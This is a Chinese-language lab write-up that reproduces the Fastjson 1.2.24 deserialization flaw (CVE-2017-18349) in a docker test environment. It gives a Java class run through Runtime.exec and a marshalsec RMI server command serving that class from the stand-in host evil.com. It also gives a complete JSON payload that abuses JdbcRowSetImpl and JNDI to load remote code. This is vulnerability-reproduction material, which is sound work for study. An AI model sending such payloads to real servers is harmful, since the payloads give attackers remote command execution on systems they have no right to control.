

Fastjson 1.2.24 反序列化导致任意命令执行漏洞（CVE-2017-18349）¶
Fastjson 是阿里巴巴开发的一款 JSON 解析器。在解析 JSON 的过程中，它支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，攻击者可以构造出恶意利用链。
参考链接：
- https://www.freebuf.com/vuls/208339.html
- http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
环境搭建¶
执行如下命令启动测试服务器，其使用 Fastjson 1.2.24 作为默认 JSON 解析器：
docker compose up -d
环境启动后，访问 http://your-ip:8090 即可看到 JSON 格式的输出。
我们可以通过向该地址发送 POST 请求来更新服务端的信息：
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
漏洞复现¶
由于目标环境是 Java 8u102，没有 com.sun.jndi.rmi.object.trustURLCodebase 的限制，我们可以使用 com.sun.rowset.JdbcRowSetImpl 的利用链，通过 JNDI 注入来执行命令。
首先编译并上传命令执行代码，如 http://evil.com/TouchFile.class：
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"touch", "/tmp/success"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
然后使用 marshalsec 项目启动一个 RMI 服务器，监听 9999 端口，并指定加载远程类 TouchFile.class：
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
向目标服务器发送包含 RMI 地址的 Payload：
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160
{
"b":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"rmi://evil.com:9999/TouchFile",
"autoCommit":true
}
}
如下图所示，命令 touch /tmp/success 已成功执行：
